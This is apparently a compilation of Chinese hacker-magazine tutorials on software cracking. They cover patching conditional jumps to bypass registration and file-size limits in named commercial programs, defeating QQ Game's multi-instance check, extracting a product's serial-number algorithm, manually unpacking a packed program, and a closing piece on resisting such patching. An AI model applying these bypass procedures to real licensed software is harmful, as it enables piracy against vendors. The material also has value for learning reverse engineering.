“收藏夹”按钮是用来记录和收藏操作事件的集合性工具，它可以将用户常用的操作记录保存下来，并随时返回这些操作。在笔者看来，这些命令都是一些搞恶作剧的命令，比如隐藏硬盘、隐藏桌面图标、禁用关闭系统等，大家就自己试着玩玩吧（图15）。最后，我们来看“传输量”的设置，它的设置好坏将直接影响蜜蜂8的整个远程控制效果。

## 神秘园

## TTT文字游戏制作者Crack入门真经

### ——菜鸟必读之爆破实录

秦妮 @[T.I,T]&[EST]

Crack的英文译意是破裂、爆裂，引申有破解、破门而入的意思。而我们今天要说的Crack，就是破解软件的保护，获得软件的无限制使用权限，带领你突破软件保护的大门，享受“破门而入”的快感。

今天我们就用一个简单的程序来向大家介绍一下crack的第一阶段：爆破。这不需要你有很深厚的汇编功力和PE文件结构知识的了解。只要能用现成的查壳脱壳软件查壳脱壳，大概了解程序注册流程，能使用简单反汇编工具对程序进行反汇编，能找到关键跳，并使用程序编辑工具修改关键跳就OK了。

这个阶段经常使用的工具是：简单查壳脱壳工具、反汇编工具W32Dasm、OllyDbg以及程序编辑工具UltraEdit等。

图2

> “Registration Failed, please try again, or contact us for support!”  
> 翻译成中文是：“注册失败，请重试，或联系我们寻求帮助！”记住这个信息，找关键跳的时候要用。

### 破解的基本原理

查壳脱壳：使用工具查看程序是否加壳，加则脱之。  
找到关键跳：查找注册成功或失败信息，向上找，直到找到关键跳。  
关键跳：跳向注册成功或失败的汇编跳转指令。  
修改关键跳（改逆）：顾名思义“改逆”就是改成相反的，把关键跳改逆。正常的注册流程是，如果输入正确注册码则跳向注册正确信息，否则相反。那我们改逆后，程序就会在我们胡乱输入错误注册码后跳向注册正确信息了。

下面我们就以一款国外的文件分割软件Easy File Splitter为例详细讲解一下爆破的全过程。

#### 一、查壳脱壳

这类工具很多了，如：PEiD、pe-scan、FI、language2k……推荐使用pe-scan，因为它可以自动脱掉一部分壳。

图1

如图1可得知程序壳的类型是aspack2.12，并且pe-scan可以帮我们脱掉。我们点“unpack”脱壳，生成无壳文件Unpacked.exe，运行程序，胡乱写注册码注册，如图2。结果当然失败了，我们的目的是记录注册错误信息。

#### 二、找关键跳

用OllyDbg打开无壳程序Unpacked.exe。在左上窗口右键，选择“搜索”→“字符串参考”，如图3。

图3

查找我们刚才记录的注册失败信息，如图4。

图4

在错误信息上双击，来到代码处：

```text
0040CE53    C745-84 188A40 >MOV DWORD PTR SS:[EBP-7C],Unpacked.00408>  UNICODE "Registration Failed, please try again, or contact us for support!"
```

找找，通常情况下，注册成功信息和关键跳都会在附近，如图5。

中文意思是：“注册成功！”。很明显这是注册成功的信息了。那么估计关键跳会在前面。如图6，程序运行到关键跳，如果注册码正确则继续向下进行，来到0040CD5A处注册成功；如果注册码错误就会来到0040CE53注册失败。

向上找离注册成功最近的跳转指令，通常就有可能是关键跳：0040CD2F，0F84 B4000000，JE Unpacked.0040CDE9。不远处我们找到上面这条指令，根据补充学习我们知道这句的意思是：如果上面的TEST AX, AX相等就跳向0040CDE9，如图7。

#### 三、改逆

改逆就是将关键跳指令改成相反的。关键跳指令是JE Unpacked.0040CDE9，操作码0F84 B4000000，根据上面补充学习得知，相反指令就是JNZ，操作码是85，如图8。

在关键跳上右键，选择“汇编”把指令改逆，如图9。

注意：不要勾选“使用NOP填充”，点“汇编”进行修改。修改过的指令会变红。然后我们右键选择“复制”→“全选”，如图10。

选中的部分会变成灰色，我们再右键选择“复制到可执行文件”→“选择部分”，如图11。在弹出窗口右键选择“保存文件”，这也是我们爆破的最后一步了，如图12。

保存为文件Unpacked1.exe，然后我们打开程序注册，还是像上面胡乱写注册码，猜猜这次的结果会怎样呢？如图13。

忙了半天当然是成功了！到这里爆破就基本结束了。可没想到在使用的过程中出现了下面戏剧化的场面，让人哭笑不得，如图14。

上面英文的意思是：“注册版本不能分割超过10M的文件，请注册解除限制。”看来我们的爆破还不够彻底，只是爆破了注册，但在程序运行时仍会对注册进行检测，从而造成功能上的限制。下面我们就将爆破进行到底——爆破功能限制。

## 神秘园

重复上面的操作：用OllyDbg打开无壳爆破后程序Unpacked1.exe。在左上窗口右键，选择“搜索”→“字符参考”，找到上面功能限制的英文信息，如图15。

如图有两处这样的信息：

```text
0040B0E1  B8 64844000   MOV EAX,Unpacked.00408464
UNICODE "Unregistered version can not split file larger than 10 megabytes"

0040B123  68 EC844000   PUSH Unpacked.004084EC
UNICODE "Unregistered version can not split file larger than 10 megabytes"
```

我们先来看第一个，把鼠标放在第一条上面双击，找到对应位置，如图16。在它上面不远处发现一个跳转指令JE Unpacked.0040B1DB，跳过了第二个功能限制信息0040B123，那我们只要把它改为JNE，逆向跳转就可以了。随后重新执行文件即可。

| 操作码 | 助记符 | 跳转含义 |
|---|---|---|
| 0F 87 | JA rel16/32 | 大于 |
| 0F 83 | JAE rel16/32 | 大于等于 |
| 0F 82 | JB rel16/32 | 小于 |
| 0F 86 | JBE rel16/32 | 小于等于 |
| ... | ... | ... |
| 0F 84 | JZ rel16/32 | 为零 |
| 0F 85 | JNZ rel16/32 | 不为零 |

好了，既然跳已经找到了，现在就重复上面的改造操作，把0040B0D1处的JE改成JNE，再复制可执行文件即可。操作和上面改造爆破注册一样。可以得到文件Unpacked2.exe。运行程序，注册结果成功；再分割大于10M的文件不会失败，如图17。

#### 四、总结

爆破是一种操作简单、行之有效的破解方式，适合初学破解的菜鸟。一般步骤是：查壳脱壳、查找关键跳、修改关键跳（改逆）。我们可以看出主要是关键跳的查找；在出现失败或成功信息附近（一般是向前扫描前面信息最近的跳转指令）查找。

## 浅析QQ游戏多开限制

刘奇

本文先介绍软件实现多开限制原理，然后以最新版的 QQ 游戏为例说明分析这类限制的思路和具体的破解方法。

#### 一、理论基础

软件如何实现多开限制，即只允许运行 1 个或者 2 个实例。其原理基本相同：在程序主窗口创建之前，检查系统中是否已经存在某个与本程序相关的特定标志。若检测到标志已存在，则直接退出程序。

- 在 `InitApplication` 中创建同步对象；通过 `GetLastError()` 判断是否已存在（如 `ERROR_ALREADY_EXISTS`），并可配合 `OpenMutex` / `CreateMutex` / `ReleaseMutex`。
- `CreateFileMapping` 可用于创建文件映射对象，通过命名对象实现实例互斥。
- 通过 `FindWindow()` 查找主窗口，若窗口已存在则禁止继续运行。

```c
HANDLE CreateFileMapping(
  HANDLE hFile,
  LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
  DWORD flProtect,
  DWORD dwMaximumSizeHigh,
  DWORD dwMaximumSizeLow,
  LPCTSTR lpName
);
```

值得注意的是，参数若为 `0xFFFFFFFF`，会在系统虚拟内存页文件中创建映射对象，而不是使用磁盘文件。

#### 二、实践

以 QQ 游戏最新版为例，先用 OllyDbg 载入 QQ 游戏，下断点 `bp CreateMutexA`，观察执行流程是否进入用户代码并分析返回值与错误码。


```asm
00407362  CALL ... CreateMutexA
...
CALL DWORD PTR DS:[<&KERNEL32.GetLastError>]
CMP EAX, 0B7
; ERROR_ALREADY_EXISTS
```


按上述分析修改后，文件可突破单开限制，但启动时仍会有提示框。继续下断 `MessageBoxA` / `MessageBoxW` 未命中，说明提示来源并非普通 MessageBox 调用路径。


进一步分析提示“无法注册指定的老板键 Alt + %c”，定位到 `RegisterHotKey` 相关逻辑。

```c
BOOL RegisterHotKey(
  HWND hWnd,
  int id,
  UINT fsModifiers,
  UINT vk
);
```

`id` 为自定义热键 ID；`fsModifiers` 为组合键（如 `MOD_ALT`、`MOD_CONTROL`、`MOD_WIN`、`MOD_SHIFT`）；`vk` 为虚拟键码。文中继续通过 `bp RegisterHotKey` 跟踪并修改对应分支。

```asm
00B237CF  CALL DWORD PTR DS:[<&USER32.RegisterHotKey>]
```

```asm
USER32.RegisterHotKey
00B237D5    TEST EAX,EAX
...
00B237D7    JNZ GameLogC...
```

热键是否注册成功？成功则跳，所有破解只需把 `jnz` 改成 `jz` 即可。

这样一来，程序认为热键已经注册成功，自然不会提示注册热键失败了。看上去好像很完美了，可是我们还没明白为什么：

```asm
bp MessageBoxA
bp MessageBoxW
```

都没有断下来。想知道为什么吗？F8 继续往下走，直到出现上面的注册热键失败提示框为止。相关代码：

```asm
00B23825    PUSH GameLogC...
00B2382A    PUSH 30
00B2382C    PUSH GameLogC...
00B23831    PUSH DWORD PTR SS:[EBP-18]
00B23834    CALL DWORD PTR DS:[...].HelpDll.QGMessageBoxA
```

#### 三、总结

原来是通过调用 `HelpDll.QGMessageBoxA` 来提示注册热键失败的。想知道该函数是如何实现的？后续可继续分析，不过不是本次讨论的主题。

至此，所有问题都得以完美解决。现在你可以一个人和 2 个大对手下几局军棋了，但是作者反对这种作弊行为。本文纯属技术研究，请勿非法使用。

（本文涉及到的 OllyDbg，光盘有收录）


---

刘奇

破解教程被写烂了，但总觉得少一篇适合未入门者的文章。很多教程一上来就是用 w32dasm 找到错误字符串如“注册失败”，再找能跳过去的指令如“je、jne”等，改成“jnc、je、jmp”等。本文尝试从破解原理入手。

`0100116B 7C8A jl 010010F7`……机器码、汇编代码、地址三者一一对应。比如把 75 改成 74，相当于把 `jnz` 改成 `jz`（或改为相等跳转）。

### 本文你能学到的：

- 为什么可以用十六进制编辑工具修改软件
- 修改的数据最终变成了什么
- 什么是机器码、汇编代码和十六进制数据
- 它们之间的关系

### 一、暴力破解的基本原理

我们先来看什么是机器码，以及什么是汇编代码。

- 先做一个 16 位的实验，这个过程不需要什么特别工具，Windows 就可以。打开 `cmd.exe`，输入 `debug`。

```asm
-a
1370:0100 mov ax,bx
1370:0102
```

```asm
-u100
1370:0100 89D8      MOV AX,BX
```

这里汇编代码是 `MOV AX,BX`，`89D8` 则是对应机器码。机器码本质是二进制数据，人们通常用十六进制显示和修改。

- 再来一个 32 位的实验。用 w32dasm 打开 32 位可执行文件（如记事本），复制一行代码：

```asm
010073C6   75 12   jnz short NOTEPAD.010073DA
```

机器码 `75` 对应汇编代码 `jnz`（图2）。

```asm
010073C6   74 12   je short NOTEPAD.010073DA
```

现在把 `jnz` 改成 `jz`（`je`），变化处是 `75` 改为 `74`（图3）。

### 二、暴力破解的基本流程

为什么我们可以爆破软件呢？先看一个简单例子：正确注册码 = F(用户名)，也就是通过用户名计算注册码。后续流程本质是比较输入注册码与正确注册码（或等价条件），破解常通过修改关键跳转实现。


出现了，赶快去买彩票啊。说了半天好像不涉及破解，其实不然。搞明白了原理，破解就好办多了。拿出你心爱的 OllyDbg 开始调试上面的程序吧。

我们知道输入错误和正确的注册码都会有提示，当我们看到这个提示的时候，程序已经比较完了输入的注册码和正确的注册码。如果找到提示上面的第一个有条件跳转（这个跳转通常是测试比较函数返回值用的），改掉就可以爆破。

用 OllyDbg 载入 `test.exe`，“右键→搜索→所有参考文本串”，找到 `"Wrong regi"`，双击来到这里，如图5。


```asm
004010C1 85C0          test eax,eax
004010C3 5B            pop ebx
004010C4 74 13         je short test.004010D9
...
004010C6 68 4C070400   push test.0040704C ; ASCII "Wrong regi"
...
004010D9 68 30704000   push test.00407030 ; ASCII "Right regi"
```

按照我们的分析，把 `004010C4` 处的 `je` 改成 `jne` 即可，双击，用 OllyDbg 修改成 `jne`，保存。执行看看，随便输入一个，成功。


要想所有输入都成功，只需要把 `004010C4` 处的 `je` 改成 `jmp` 即可，原因自己想想就明白了。这次就讲这么多吧，下次见。（本文涉及到的程序 test、test_ok 和相关代码，光盘有收录）

```c
#include <stdio.h>
#include <string.h>

int main() {
    char user_name[20];
    char register_code[20];
    char real_register_code[20] = {0};
    unsigned int i;

    printf("\nEnter user_name: ");
    scanf("%s", user_name);

    printf("\nEnter register code: ");
    scanf("%s", register_code);

    for (i = 0; i < strlen(user_name); i++) {
        real_register_code[i] = user_name[i] + 1;
    }

    if (strcmp(register_code, real_register_code)) {
        printf("\nWrong register code!!!\n");
    } else {
        printf("\nRight register code!!!\n");
    }

    return 0;
}
```

程序比较简单，但是足以说明问题，不是吗？如果我们把 `if (strcmp(register_code, real_register_code))` 改为 `if (!strcmp(register_code, real_register_code))`，那么几乎不管我们输入什么都会成功。


### 菜鸟学破解

翼云

在 2005 年第 7 期的《神秘园》中有一篇文章叫《教你学破解》，看了以后觉得作者给的例子和破解方式都很通俗易懂，很适合我这样的菜鸟学习。因此在这篇文章的基础上，我也写一篇适合入门读者的文章，当然这也是我平时学习时所学到的东西，或许对大家有所帮助。


#### 一、内存搜索

在内存里搜索是比较方便的事情，只要找到相应的字符，在内存中搜索就可以了。用 WinHex 就可以做到这一点。不过这次我的搜索和平时不太一样，但是也大同小异，因为所举例子的限制，所以不一样也难免。

#### 二、在 .data 节中查找密码

编译器通常会把初始变量存放在数据段，可以缩小需要查找的范围。这里查找数据段中的密码使用 dumpbin，这个工具在 VC 或 MASM 中都有提供。

#### 三、另类暴力破解

传统的暴力破解都是修改跳转指令，比如把“je”改成“jne”。这里介绍另一类方式：修改“test”为“xor”。“xor”可单独使用，也可配合“test”，其功能是相同得 0、不同得 1。

既然是破解，当然要有一个合适的程序来充当例子。这里用一个即将被做实验的小程序，程序如下：

```c
#include <stdio.h>
#include <string.h>
#define PASSWORD_SIZE 100
#define PASSWORD "hackerxfiles\n"

int main() {
    int count = 0;
    char buff[PASSWORD_SIZE];
    for(;;) {
        printf("Enter password");
        fgets(&buff[0], PASSWORD_SIZE, stdin);
        if(strcmp(&buff[0], PASSWORD))
            printf("Wrong password\n");
        else
            break;
        if(++count > 3) return -1;
    }
    printf("Password OK!\n");
    return 0;
}
```

程序的关键有两处：一是 `#define PASSWORD "hackerxfiles\n"`，二是 `if(strcmp(&buff[0], PASSWORD))`。前者是明文密码线索，后者是比较位置，都是破解时的重要关注点。

我们菜鸟的破解之旅开始了！首先使用 WinHex 在内存中搜索，输入错误密码后到 Primary Memory 里搜索 `Wrong password`，可定位到附近的真实密码字符串。

第二个登场的是 dumpbin。通过 `/SECTION:.data` 可查看数据段内容，配合 `RAWDATA:BYTES` 的形式输出，在文本中即可查找包含密码的字节与字符串。

```text
RAWDATA #3
00406000 ...
00406030 50 61 73 73 77 6F 72 64 ... Password
00406040 57 72 6F 6E 67 20 70 61 ... Wrong password
...
```

看到 `00406040` 了吗？这行后面就出现了密码相关字符串，定位非常直观。

这种方法在真正的破解中并不是很实用，因为没有人会把密码放在这么显眼的地方。只是 dumpbin 的功能非常强大，介绍这种破解方法也是顺便介绍一下它了。


最后，也是今天最主要的，就是使用 OllyDbg 进行我们的另类暴力破解。我们知道，在输入错误的密码后，会提示“Wrong password”。因此我们用 OllyDbg 来查找“Wrong password”这个字符串，相应地也就可以找到我们要修改的指令了。


用 OllyDbg 打开 `exm.exe`，右键点“搜索→字符串参考”，找到“Wrong password”，双击“Wrong password”来到如图3。


按照传统的暴力破解，改 `0040105E` 那行的 `je` 为 `jne` 就可以了。这将把正确的密码当错误的密码来看，把错误的密码认为是正确的。这只不过是传统方式。我们这里把 `test` 改为 `xor` 就可以完成我们的另类爆破。`xor eax,eax` 代替 `test eax,eax`，不管输入什么样的密码，`je` 都不会跳转，如图4。

在 `.data` 中查找密码、内存搜索密码、另类暴力破解（包括暴力破解）都是一些最基本的招式。汇编语言、编译器原理和程序设计的算法都很重要。希望文章对你有帮助。

## TITLE文字破解小组 Crack入门宴基础——简单算法和注册码篇

秦妮@[T.I.T]&[EST]

算法可以说是一个程序的灵魂，好的算法可以节省大量时间和空间。对于 Crack 来说，高强度算法可以尽可能有效地保护程序不被非法注册。我们要做的是分析注册流程，提取注册算法，对其进行分析、测试，最后可以根据需要写出注册机。


#### 一、Word 文档管理系统注册算法初探

首先，查壳脱壳。推荐使用 pe-scan，因为它可以自动脱掉部分常见壳。查看主程序 `DMS.exe`。现在大多数常见壳都可以在网上找到相应的自动脱壳工具；遇到较强壳则需手工分析脱解。


#### 二、运行主程序

胡乱注册，获取注册失败信息，如图3。“您输入的注册码不正确，请重新输入！”就是这个了，记住它，后面要用到。

#### 三、反汇编主程序，查找注册失败信息

推荐使用 W32DASM（“屠龙宝刀”），打开 `W32DASM.exe` 加载程序 `DMS.exe`。

查找注册失败信息操作：点 `W32DASM.exe` 右上部的“参考”→“串式参考”。如图4。在弹出的“W32DASM 串式参考内容清单”里找注册失败信息“您输入的注册码不正确，请重新输入！”，如图5。


在此信息上反复双击鼠标，并注意 W32DASM 窗口的变化，发现它仅来到 `0059A27E` 一处，说明注册失败信息只在 `0059A27E` 处出现。如图6。

`0059A1C7`，我们来到关键跳看看有什么敏感信息，如图9。选择“转移”→“转到代码位置”，在弹出的窗口输入该地址，如图10。点确定就会来到关键跳 `0059A1C7` 处。


#### 四、来到注册失败或成功代码处

在附近找关键跳。现在就在 `0059A27E` 附近找有什么应用信息，向上看发现，如图7：

- 注册成功信息在失败信息前面，也就是说注册流程如图8。
- 跳向注册失败的跳转指令在 `0059A1C7`，通过上图可以得知跳向注册失败的跳转就是关键跳，也就是说关键跳在 `0059A1C7`。

### 五、来到关键跳附近找关键算法call

通常是在关键跳前的比较判断指令前面、离该指令最近的 `call`。如图11。

来到关键跳 `0059A1C7`，看见汇编指令是 `jne 0059A27E`。如果要爆破可修改该指令为 `je 0059A27E`。详细做法参考我的另一篇拙著《TIT女子破解小组 Crack入门零基础》。我们可以发现两个疑问：

- 关键跳前面没有表示比较判断的汇编指令，却有个 `call`：`0059A1C2 Call 00404D6C`。

## 神秘园


2. 这个 call 是做什么的呢？初步估计应该是实现比较判断的，但也有可能是我们要找的算法关键 call。先不管那么多，到 call 看看再说。用上面“转移”的方法来到 00404D6C 处看看，如图12。


可以看到并没有什么运算命令，在 call 前开始处发现了比较判断指令 `cmp eax, edx`，可以初步断定这个 call 可能是关键比较 call。那我们就得再回到关键跳附近继续找了。

既然 `0059A1C2 Call 00404D6C` 是比较判断作用的，那关键算法 call 就应该在它前面。向前找到最近的 call：`0059A1B9 CALL 0059AE70`，估计就是这个了。

> **技巧：**其实想判断一个 call 是不是算法关键 call，可以如下操作：在这个 call 前下断点，运行程序先写注册信息注册；如果断不到注册码，而我们单步执行这个 call 后发现注册码出现，那就说明这个 call 是关键算法 call，否则就不是。你也可以分别在这个 call 前后下断点，如果前断点断不到注册码、后断点可断出注册码，则该 call 为关键算法 call。

下面我们就用这种方法验证一下这个 call：首先，加载程序。点“调试”→“加载进程”，如图13。


程序会提示“命令行”，我们不用理会，直接“载入”即可，如图14。


载入后会弹出两个窗口，如图15。


下面我们在主窗口操作：用“转移”的方法来到 call 的地址 `0059A1B9` 处。然后我们在它上一条指令 `0059A1A5 mov eax, dword ptr [eax]` 处下断点。操作方法是：使光标移到 `0059A1A5 mov eax, dword ptr [eax]` 处使之高亮显示，然后按 F2。断点设置成功后，在主窗口和程序调试窗口有专门显示：主窗口地址前变黄，程序窗口中地址前有“BP*”的断点标记，如图16。


然后按“F9”运行程序，乱写注册码注册，如图17。程序会被断下来。现在我们在寄存器信息窗口查看各个寄存器里的信息。

点图18中红圈里的寄存器名称，就可在右面窗口中出现相应信息。我们查看各个寄存器，仅在 edx 中发现本机机器码，别的就没有什么敏感信息。

现在我们按 F8 单步执行这个 call。每按一次都要仔细查看各个寄存器里的信息。当按了 3 次时，也就是程序运行到：

```asm
.0059A1C1 pop eax
.0059A1C2 call DMS.00404D8C
```


图17


图18

关键比较 call 前面时，发现寄存器 edx 中数据有可疑信息，如图19。


图19


图20

终止动态调试程序，如图20。然后直接双击 DMS.exe 运行程序，用 103424 注册，结果成功。


图21

见图21，说明 103424 是真正注册码。`0059A1B9 CALL 0059AE70` 是算法关键 call。

#### 六、关键算法 call，分析程序如何计算答案

还是用“转移”的方法来到 `0059AE70` 看看这个 call 里的内容。只要你懂汇编语言，相信你不难找到如下算法，详细注释如下：

```asm
0059AE91  8B9F860100      MOV EBX,[...]
0059AE96  8B45FC          MOV EAX,DWORD PTR [EBP-4]
0059AE99  E8 829DE6FF     CALL 00404C20
0059AE9E  85C0            TEST EAX,EAX
0059AEA0  7E19            JLE 0059AEBB
0059AEA2  BA01000000      MOV EDX,1
0059AEA7  8B40FC          MOV ECX,DWORD PTR [EAX-4]
0059AEAA  0FB64C11FF      MOVZX ECX,BYTE PTR [...]
0059AEAF  03D9            ADD EBX,ECX
0059AEB1  81C306020000    ADD EBX,206
0059AEB7  42              INC EDX
0059AEB8  48              DEC EAX
0059AEB9  75EC            JNZ 0059AEA7
```

当 EAX 减到 0，也就是机器码都取完，就计算得出注册码。下面我们测试计算一下：机器码 107966 时的注册码是什么？（ASCII 码可在下图22查）

| 十六进制机器码运算 | 十进制运算 |
|---|---|
| `0x1869F + 1` 的 ASCII 码（十六进制）`+0x206 = 0x18D06` | `99999 + 49 + 518 = 100566` |
| `0x18D06 + 0` 的 ASCII 码（十六进制）`+0x206 = 0x18F0C` | `100566 + 48 + 518 = 101132` |
| `0x18F0C + 7` 的 ASCII 码（十六进制）`+0x206 = 0x18D49` | `101132 + 55 + 518 = 101705` |
| `0x18D49 + 9` 的 ASCII 码（十六进制）`+0x206 = 0x18F88` | `101705 + 57 + 518 = 102280` |
| `0x18F88 + 6` 的 ASCII 码（十六进制）`+0x206 = 0x191C4` | `102280 + 54 + 518 = 102852` |
| `0x191C4 + 6` 的 ASCII 码（十六进制）`+0x206 = 0x19400` | `102852 + 54 + 518 = 103424` |

图22

`0x1869F + 机器码的 ASCII 码 + 0x206`（逐位相加循环运算）= 输出十进制结果即注册码。

计算输入十进制结果 103424 和我们上面调试结果一样，说明算法提取正确。

#### 七、根据思路编写注册机程序

关于注册机编写大家就可以自由发挥了，只要有了正确的算法。用什么语言写注册机就看大家擅长什么计算机语言了。个人认为还是 C 语言的运算能力及程序编写比较方便简单。主要算法可以写成 `reg = reg + code[i] + 0x206`，再使用 `for` 循环计算 `length`（取机器码长度 `strlen(code)` 即可）。由于公开开发和注册机会造成法律问题，就不给大家编完整注册机了。如果想注册，用上面的计算方法拿笔慢慢算就好了，相信你 2 分钟内一定算得出。

#### 八、总结

写这篇文章主要有两个目的：

- 1. 介绍算法分析的一般步骤及实现方法。
- 2. 使用 W32DASM 完成静态分析和动态跟踪。主要想告诉大家：W32DASM 并不光是反静态反汇编的利器，也可以用来做动态跟踪；而 OllyDbg 的界面更清晰、操作也更简单，在以后破解中地位很重要。后续将详细讲述使用 OllyDbg 进行算法注册的一般步骤和方法。

（本文涉及到的软件 w32dasm、Word_DMS_Setup，以及相关动画，光盘有收录）

补充知识：常用字符的 16 位 ASCII 值

| Dec | Hex | Char | Dec | Hex | Char | Dec | Hex | Char | Dec | Hex | Char |
|---:|---:|:---:|---:|---:|:---:|---:|---:|:---:|---:|---:|:---:|
| 32 | 20 | （空格） | ... | ... | ... | ... | ... | ... | 127 | 7F | DEL |

（表格主体为连续 ASCII 对照表，覆盖数字、大小写字母及常见符号）


### TIT 女子破解小组之逆向工程菜鸟教室篇

软件的保护一直是比较受关注的问题，加壳、伪装也是软件保护的常用手段。而 Crack 的乐趣也就在于脱壳、去伪装。逆向工程是 Cracker 入门常用手段，破解保护软件一般比共享软件更难，破解软件的难度也由相关算法决定。熟悉并掌握 hack 与 crack 的技巧，可以更快提升技术水平，也更有乐趣与快感。

## 实战阿拉QQ大盗16J全解版脱壳篇

通过前几篇文章的学习，相信各位对破解已经有了一定了解，也应该熟悉了暴破、注册码追击和简单算法分析的一般步骤和方法，下面简单做下总结：

- 1. 暴破思路
  - 第一步：检查程序是否加壳，如加壳则脱壳。
  - 第二步：反汇编程序，找到关键跳。
  - 第三步：修改程序关键跳，重新编译程序，完成暴破。
- 2. 五步追码大法
  - 第一步：检查程序是否加壳，如加壳则脱壳。
  - 第二步：反汇编程序，找到关键跳。
  - 第三步：在关键跳附近向上找关键 CALL。
  - 第四步：在关键 CALL 处下断点，运行程序。
  - 第五步：断下后查看相应内存或寄存器，找到真正注册码。
- 3. 算法破解
  - 第一步：查壳并脱壳。
  - 第二步：反汇编程序，定位关键跳附近的关键算法 CALL。
  - 第三步：进入关键算法 call 分析算法。
  - 第四步：提取并测试算法。
  - 第五步：根据需要编写注册机程序。

相信大家通过练习都已经熟练掌握了吧！通过上面的总结我们也可以清楚地看到：查完壳是 Crack 的第一步……今天我们要说的是如何脱壳去伪装。

首先，我们先来查壳，用 PEID 查壳，如图1。


图1

可以看到是 Microsoft Visual C++ 编译……“文件入口”是 000AE010，而“文件偏移”却是 00041810……


图2

什么也没有查出来，先不管那么多了，手动脱壳吧！用 OllyDbg 加载程序分析一下……如图3所示。


图3

说明 PE 文件头可能有问题，并有可能程序被加壳了。无需管这个项，直接点“确定”……来到入口点 004AE010 处。


图4

```asm
004AE010 > 55        push ebp
004AE011   8BEC      mov ebp,esp
...
004AE03F   FFE0      jmp eax
004AE041   90        nop
```

前后都是一堆的 0000，也就是说程序从入口运行到 004AE03F 就会 `jmp eax`……如图5所示。


图5

#### 二、寻找程序真正入口

接下来我们就把光标移到 `004AE03F FFE0 jmp eax`，按 F4……经验告诉我们可以先不急于分析代码，先直接向下找长转跳和变形长转跳。

```asm
004AB0B0   60            pushad
004AB0B1   ...
004AB21A   61            popad
004AB21B   E9 0C8BFCF    jmp alaq072.00473D2C
004AB220   ...
```

看 `004AB21B E9 0C8BFCF > jmp ...00473D2C`，这里就应该是程序的真实入口了！

#### 三、在内存中 Dump 出脱壳程序

我们再将光标移到 004AB21B，按 F4，程序运行到 004AB21B，在内存中把程序 Dump 出来就可以了，如图6。


图6

点击“脱壳在当前调试的进程”，进入 Dump 参数设置，将入口修改为 AB21B，如图7。


图7

点“脱壳之”，保存文件为 un.exe。不要着急运行程序，这时的程序还无法运行，要修复一下输入表才可以正常运行。


图8

#### 四、修复输入表

运行 ImportREC 来修复输入表，如图8。选取程序 alaqq0720.exe，将“IAT所需信息”中的 OEP 改成图7中的 AB21B，再点“获得输入信息”，会看到“输入函数”中的所有函数都有效。再点“修理抓取文件”，选择刚才 Dump 出来的 un.exe，在 ImportREC 的日志中可以看到 un_.exe 保存成功，如图9。


图9

好了，现在运行 un_.exe 一切正常完毕。查看文件大小，如图10。再分别用 PEID 和 language2k 查壳，如图11。


图10

PEID 没有发现，language2k 查出程序是用 DELPHI 编译，压缩加壳也没发现。这就可以说明我们脱壳成功了。

#### 五、总结

本文主要是探讨一下软件手动脱未知壳的技巧和步骤。主要思路是：正确分析程序壳运行流程，找准必经代码，找到真正的程序入口，在内存中 Dump 出脱壳程序，修复输入表，使程序能正常运行。这需要有一定的汇编语言基础，要了解程序结构，对壳的原理及作用有一定了解。


图11

- 1）为什么我使用 PEID 查壳，显示的结果是 Microsoft Visual C++，并且入口点是 0000？
- 2）在 ImportREC 中“填写什么壳信息”有什么意义？
- 3）EP 区域里的 edata 有什么作用，为什么脱壳后会因此导致 EP 区域中出现 QXX？
- 4）通过脱壳后发现程序是用 DELPHI 编译，还能伪装吗？

下一次我们就来具体分析一下如何伪装欺骗 PEID 和怎样去伪装。这需要对 exe 文件结构有所了解，我会在下一次详细讲解！

（本文涉及到的相关程序：alaqq0720.exe、un.exe、un_.exe 等，光盘有收录）

## 神秘园

## 如何防止暴破

刘奇

讲解暴破的文章相信读者已经看过很多篇了，以致于一些老读者开始怨声载道（某老读者：“最讨厌你们这些搞暴破的了，一点技术含量都没有”）。如何防止暴破一直都是一个很有挑战性的话题，也是一个没有多少人涉足的领域……

### 一、为什么高手也没有办法防止暴破

我们先来看看传统软件是如何注册的：

- 1. 取得用户名或者机器码等一些资料。
- 2. 采用一定的算法来判断是否合法用户。
- 3. 第2步得到的答案只有2个（某读者：“废话”）：合法和不合法。

其实这不是废话，因为这里产生了分支，编译为汇编代码的时候就必然生成跳转指令。提到跳转就不能不提及大家都能背诵的一段口诀：

> 暴破口诀（献给初学者）：
>
> 一条（跳）就死，九筒（90-nop）就胡。  
> 一条（跳）就胡，一饼（EB-jmp）何须。  
> 零死（74-jz）便壹死（75-jnz）。  
> 爸死（84）便爸无（85）。

### 二、如何防止暴破（理论基础）

通过上面的分析我能想到的办法只有一个：那就是不让程序产生分支。这样一来我们就不能判断是否合法用户了……因为判断就有分支，有分支就可以用暴破解口诀来暴破。可问题是：如果我们不去判断是否合法用户，我们如何知道用户是否合法？

举个简单的例子：假如我们软件的某一部分功能仅仅对于注册用户开放，我们能否做到实现对应功能的代码和注册码关联。即用注册码来解密功能限制的那部分代码。假设加密后的代码是：`@^%$#(*&)(#?￥……`，用正确的注册码解密后变成：`say hello`；用错误的注册码解密后变成：`+*&$%(*&(**——…%`。

### 三、如何防止暴破（实战）

这一部分需要读者具有一定的汇编语言基础和缓冲区溢出知识。假如我们把有功能限制的代码加密后写成机器码形式，保存在一个数组中，然后用注册码去解密，不就可以了吗？

- 1. 再谈栈溢出  
  栈溢出的最终目的是让程序去执行我们指定的一段代码，通常都是 shellcode（话外：如果不是 shellcode 呢）。

```c
#include <stdio.h>

char code[] = {'a','b','c','d','e'};

int main() {
    __asm {
        push code;   // 压入 code 的前4个字节
        ret;         // 返回到 code 指定地址执行
    }
    return 0;
}
```

`ret` 指令的作用相当于 `pop eip`（该指令并不存在），即从栈中弹出返回地址。运行程序后看，如图1。


图1

看到“请单击此处”了吗？点一下看看详细情况，如图2。


图2

## 神秘园

看到蓝色标记的 Offset: 63636264 了吗？是不是很面熟，不就是我们定义的 `code[] = {'a','b','c','d','e'}` 中的“d”“c”“b”“a”的 ASCII 码的 16 进制表示吗？

注意前面的 Offset 哦，不是真实地址，而是偏移地址，这算不算溢出呢？我想不算吧，但是我们达到了相同的目的：修改了返回地址。

- 1. C 语言里面数组名就是数组的首地址，那么我们执行 `push code` 压入的应该是数组首地址啊，但事实上……
- 2. 我们的 `code` 随便定义肯定会非法操作，如何才能合理利用 `code` 数组。
- 3. 执行完 `code` 数组后能否回到后面的 `return 0` 以正常结束程序，如何才能做到。

```c
10:    push code;
11:    ret;
```

图3

